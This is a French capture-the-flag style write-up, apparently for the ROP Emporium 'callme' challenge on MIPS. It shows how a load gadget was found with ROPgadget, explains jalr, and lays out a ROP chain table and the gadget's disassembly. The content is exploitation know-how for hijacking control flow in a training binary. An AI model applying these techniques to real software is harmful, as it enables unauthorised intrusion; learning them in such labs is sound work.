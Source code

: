 
## Construction de l'attaque

### Recherche de gadgets

On peut rechercher un gadget contenant un chargement de $a0 et de $a1 par exemple

ROPgadget -binary callme_mispel|grep "lw \$a0" |grep "\a1"

On trouve le gadget situé dans usefulGadgets.

    0x00400bb0 : lw $a0, 0x10($sp) ; lw $a1, 0xc($sp) ; lw $a2, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop

L'instruction jalr effectue un saut et une affectation du registre d'adresse de retour.

>jalr r     # $ra <— PC+4  $ra <— return address
>           # PC  <— $r    load the PC with the address in $r

Usage du gadget :

`lw $t9, 4($sp)` charge dand `t9` le contenu de $sp+4 donc pas la première entrée de la pile mais la suivante.
On doit donc prevoir une entrée de junk avant.
La dernière instruction effectue l'equivalent d'un call à l'adresse placée dan `t9` on doit donc y mettre l'adresse de la fonction.

Ensuite on place les 3 paramètres dans l'ordre inverse puisque il sont lus respectivement dans `sp` + 16,12,8.

Ca qui nous donne :

| ROP entry | gadget | comment |
| ----------- | ------- | ----- |
| 0x00400bb0 | lw $a0, 0x10($sp) ; lw $a1, 0xc($sp) ; lw $a2, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop| gadget de chargement
| callme_xxx| | Pour $t9
| 0xd00df00d | | pour $a2
| 0xcafebabe | | pour $a1
| 0xdeadbeef | | pour $a0
| | |

La question qu'on se pose alors est quid de l'enchainement pour continuer le déroulement de la chaine de ROP.

Au moment de `jarl $t9` on a "$ra <— PC+4" soit après l'instruction jalr ce qui est logique.

Le gadget complet est donc :

    │           0x00400bb0      1000a48f       lw a0, (var_10h)
    │           0x00400bb4      0c00a58f       lw a1, (var_ch)
    │           0x00400bb8      0800a68f       lw a2, (var_8h)
    │           0x00400bbc      0400b98f       lw t9, (var_4h)
    │           0x00400bc0      09f82003       jalr t9
    │           0x00400bc4      00000000       nop
    │           0x00400bc8      1400bf8f       lw ra, (var_14h)
    │           0x00400bcc      0800e003       jr ra
    └           0x00400bd0      1800bd23       addi sp, sp, 0x18
